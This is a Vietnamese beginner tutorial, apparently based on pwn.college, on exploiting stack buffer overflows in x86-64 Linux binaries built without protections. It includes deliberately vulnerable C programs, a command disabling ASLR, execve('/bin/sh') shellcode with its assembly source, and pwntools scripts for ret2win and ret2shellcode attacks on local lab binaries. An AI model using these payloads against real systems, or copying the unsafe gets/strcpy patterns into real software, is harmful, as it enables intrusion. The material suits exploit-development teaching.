







<html>

<h3>Hướng dẫn chèn shellcode từ lỗi Buffer Overflow từ căn bản</h3>


<p>Bài viết để giải thích chi tiết cách chèn shellcode khi có lỗi buffer overflow từ căn bản.</p>


<b>Note:</b> 

<p>- Phiên bản Assembly trong bài là Assembly x86-64 cho Linux</p>

<p>- Bài viết có 1 phần nội dung (thực ra là rất nhiều) từ web <b><a href="https://www.pwn.college">pwn.college</a></b></p>

<p>- Để đọc bài này các bạn cần biết shellcode là gì. Các bạn có thể đọc để hiểu sơ qua về shellcode ở <a href="https://vietnix.vn/shellcode-la-gi/">ĐÂY</a>.</p>

<p>- Nội dung bài viết giới hạn  ở việc file binary đã tắt các cơ chế bảo vệ như NX, PIE,... và đều là làm local hết</p>

<p>- Bài viết không dành cho người đã có trình độ cao :(( vì đọc có thể sẽ gây ức chế.</p>


<hr>

<h4>Phần 1: Hiểu sơ về cách thức shellcode hoạt động</h4>


<p>Để bắt đầu thì chúng ta hãy xem xét đoạn code trong file <b>buffer.c</b> sau đây:</p>


```c buffer.c

void bye1() {puts("Goodbye!");}

void bye2() {puts("Farewell!");}

void hello (char *name, void (*bye_func) ()) {

   printf("Hello %s!\\n", name);

   bye_func();

}

int main () {

   char name[1024];

   gets(name);

   

   srand(time(0));

   if (rand() % 2 ) {

       hello(bye1, name); //<= đoạn cần chú ý 

   }

   else {

       hello(name, bye2);

   }

   return 0;

}

```

<p><b>P/S:</b> Copy code về rồi biên dịch mà thấy compiler báo lỗi từa lưa cũng không có gì bất ngờ :)) vẫn chạy được đấy.</p>


Để tạo điều kiện cho lỗ hổng thì ta sẽ tắt 1 số chế độ bảo vệ của kernel đi bằng lệnh:


```shell
gcc -fno-stack-protector -z execstack no-pie buffer.c -o buffer
```




<p>Khi để ý kĩ thì đoạn gọi hàm <b>hello(bye1, name)</b> đã có thứ tự ngược so với thứ tự cần truyền tham số. Vậy nên trong trường hợp gọi trúng hàm <b>hello(bye1, name)</b>, địa chỉ của name được truyền vào, tất cả những gì có trong name sẽ được thực thi.</p>


<p>Giả sử nếu ta có 1 đoạn shellcode sau:</p>


```shell
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

Đây chính là 1 đoạn shellcode để gọi shell tương tác.


Chạy chương trình và dán đoạn shellcode trên vào input:

```bash
./buffer < <(echo -ne "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05";cat)
```


Tại sao lại cần phải có `;cat` ở đằng sau? Vì sau khi chạy lệnh thì shell có thể sẽ bị tắt và user không kịp làm gì với shell hết, cho `cat` vào là để giữ cho shell chạy giúp user tương tác.


Sau khi chạy lệnh xong các bạn có thể gõ các lệnh như `ls` , `whoami` để xem shell đã thật sự hoạt động chưa.


Đây là script python dùng pwntools nếu các bạn không thích dùng `echo`:


```python exploit.py

from pwn import *

p = process('./buffer')

payload = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

p.send(payload)

p.interactive()
```

<hr>

<h4>Phần 2: Các bước để chèn shellcode và gọi shell</h4>


Ta xem xét file code <b>buffer.c</b> khác:


```c buffer.c
#include <stdio.h>

#include <stdlib.h>

#include <string.h>


void win() {

	puts("Congrats!, you're now in win() function");

	fflush(stdout);

}


int check_authentication(char *password) {

   char password_buffer[16];

   int auth_flag = 0;

   strcpy(password_buffer, password);

   if (strcmp(password_buffer, "brillig") == 0) auth_flag = 1;

   if (strcmp(password_buffer, "outgrabe") == 0) auth_flag = 1;

   return auth_flag;

}


int main(int argc, char *argv[]) {

   if (argc < 2) {

       printf("Usage: %s <password>\\n", argv[0]);

       exit(0);

   }

   if (check_authentication(argv[1])) {

       printf("\\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\\n");

       printf(" Access Granted.\\n");

       printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\\n");

   } else {

       printf("\\nAccess Denied.\\n");

   }

}


```


Biên dịch file <b>buffer.c</b> này với lệnh:


```bash
gcc -fno-stack-protector -no-pie -z execstack buffer.c -o buffer
```


Lệnh tắt ASLR:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```


Nhìn thấy hàm `strcpy()` trong file <b>buffer.c</b> là ta xác định được có thể ghi không giới hạn vào input, từ đó xác định được lỗi buffer overflow tồn tại ở đây.


<h5>2.1: ret2win</h5>


Mục tiêu của ta là phải làm thế nào để nhảy được tới hàm `win()`. Để làm được điều đó ta cần:

\- Xác định địa chỉ của hàm `win()` khi chương trình chạy bằng gdb.

<!-- - Xác định nơi sẽ dùng để ghi đè địa chỉ hàm `win()`, với mình thì mình sẽ dùng địa chỉ của biến `password_buffer` khi chương trình chạy. -->

\- Chèn shellcode để rip bị ghi đè bởi địa chỉ hàm `win()`, từ đó chương trình sẽ nhảy đến hàm `win()`.


*Bước 1:* Dùng gdb xác định địa chỉ hàm `win()`





Địa chỉ hàm `win()` trên máy mình là `0x4011d6`.


<!--

*Bước 2:* Tìm địa chỉ của password_buffer


Bật gdb và gắn đường dẫn tới pwndbg:


Sau đó đặt breakpoint ở hàm `check_authentication`.


Như vậy đã xác định được địa chỉ của `password_buffer` là `0x7fffffffe152`. Tuy vậy địa chỉ này có thể sẽ bị thay đổi khi độ dài của buffer thay đổi. Nên ta sẽ tạm lấy địa chỉ này để test trong shellcode.

-->


*Bước 2:* Tạo đoạn shellcode để nhảy đến địa chỉ hàm `win()`


Đây là hình minh họa cho stack frame của hàm `check_authentication` (Trong trường hợp này thì arguments không có trên stack)





Khi biến local `password_buffer` được ghi vượt quá mức, nó sẽ ảnh hưởng đến return address, mà ở cuối mỗi stack frame sẽ luôn có lệnh `ret` để pop giá trị của return address vào `rip`.


Qua kiểm tra thì thấy được sau khi ghi 40 chữ 'a' sẽ có ảnh hưởng tới return address. Các bạn có thể dùng hàm `cyclic()` và `cyclic_find()` của pwntools để kiểm tra phần này.


Như vậy, chỉ cần làm nốt công đoạn chạy shellcode nữa là xong:


```shell

./buffer $(echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd6\x11\x40")

```


<h5>2.2: ret2shellcode đơn giản</h5>


Ở phần này mình sẽ chèn shellcode để bật shell.


*Bước 1*: Lấy phần shellcode gọi shell


Trước hết ta cần có 1 script assembly `shell.asm` để gọi shell:


```x86asm #thực ra là 64bit nhưng để tag vậy cho lên màu
section .text

   global _start

_start:

	xor rsi,rsi

	push rsi

	mov rdi,0x68732f2f6e69622f

	push rdi

	push rsp

	pop rdi

	push 59

	pop rax

	cdq

	syscall
```


Biên dịch file `shell.asm` này:


```shell

nasm -f elf64 shell.asm -o shell.o

ld shell.o -o shell

./shell

$ exit

```


Tiếp đó lấy phần shellcode bằng script sau, các bạn cứ paste thẳng script này lên terminal:


``` bash
objdump -d <SHELLCODE_FILE> | grep -A30 '<_start>:' | \
grep -oP '\s\K[0-9a-f]{2}(?=\s)' | \
tr -d '\n' | sed 's/../\\x&/g; s/^/"/; s/$/"/'; echo
```


Thay <SHELLCODE_FILE> bằng tên file thực thi của các bạn, tên file thực thi của mình là "shell"


Như vậy là ta đã có được đoạn cần thiết để bật shell:


```shell
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

*Bước 2:* Tìm địa chỉ của password_buffer


Bật gdb và gắn đường dẫn tới pwndbg:





Sau đó đặt breakpoint ở hàm `check_authentication` và nhảy tới đó.





Như vậy đã xác định được địa chỉ của `password_buffer` là `0x7fffffffe152`. Tuy vậy địa chỉ này có thể sẽ bị thay đổi khi độ dài của buffer thay đổi. Nên ta sẽ tạm lấy địa chỉ này chỉ để test trong shellcode thôi.


Tiếp đó sẽ dùng pwntools và pwndbg để xác định địa chỉ thật của `password_buffer`, do đã tắt các cơ chế như ASLR, PIE,... nên địa chỉ đó sẽ cố định.


```python
from pwn import *

import os

import signal

payload = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05" #get shell 

payload += b'A'*17

payload += b'\x52\xe1\xff\xff\xff\x7f' #buffer address test


p = process(['./buffer', payload])


os.kill(p.pid, signal.SIGSTOP)

gdb.attach(p, gdbscript='''

          b check_authentication

          source /home/khanh/Code/Tools/pwndbg/gdbinit.py

          ''')

os.kill(p.pid, signal.SIGCONT)


p.interactive()

```





Như vậy đã xác định được buffer address khi gửi full cái payload này, đó là `0x7fffffffe0de`.


*Bước 3:* Viết script để gửi payload chuẩn và lấy shell


```python exploit.py

from pwn import *

payload = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05" #get shell 

payload += b'A'*17

payload += b'\xde\xe0\xff\xff\xff\x7f' #buffer adresss

p = process(['./buffer', payload])

p.interactive()
```


Và chúng ta đã có shell





<hr>


Có thể sẽ có bạn thắc mắc rằng ở đoạn cuối của hàm `check_authentication` có lệnh:


```x86asm # là 64bit nhưng để vậy cho lên màu
leave

ret
```


Lệnh `leave` tương đương với việc `mov rsp, rbp` và `pop rbp` . Nên `rsp` sẽ được đưa về trạng thái lúc trước khi cấp phát cho stack frame mới. Tức là các local vars sẽ không còn được tính là ở trong stack. Như vậy thì sao vẫn để shellcode trỏ đến `password_buffer` ?


Là do dù `rsp` đã trỏ về nhưng dữ liệu thì vẫn còn đó và chưa hề bị xóa. Việc chỉ định rõ địa chỉ cụ thể sẽ nhảy đến trong shellcode (việc này khả thi do địa chỉ không bị thay đổi), kết hợp với việc dữ liệu password_buffer không bị ghi đè đã tạo điều kiện khai thác thành công.

<hr>


Cảm ơn các bạn đã đọc bài viết này. Dù bài viết có thể còn thiếu sót nhưng hi vọng là nó hữu ích đối với các bạn beginner.


</html>
